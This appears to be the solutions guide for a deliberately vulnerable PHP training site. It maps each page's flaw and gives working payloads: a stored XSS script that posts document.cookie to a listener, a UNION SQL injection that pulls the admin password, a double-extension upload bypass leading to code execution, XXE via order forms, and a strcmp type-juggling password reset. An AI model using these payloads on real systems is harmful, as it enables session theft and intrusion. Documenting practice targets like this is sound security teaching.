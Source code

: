 
##Solutions & vulnerability locations

**Comments - comments.php**
Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8000",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

**Order Form - order.php**
Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.

**Products Page - Products.php**
Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**
Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpeg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

##Admin-only Pages

**Admin - admin_page.php**
This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed.

**Reset Password - reset_pw.php**
PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB and user-supplied password to ensure that they are the same.  The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.

**View Orders - view_order.php**
This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page.

**continue.php**
This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

**db.php**
Hard-coded database credentials are not securely stored, and are left in the default webroot file path.




## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker. Whatever.
- **phpinfo.php** Included for fun, troubleshooting, & recon.
- **continue.php**
This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.
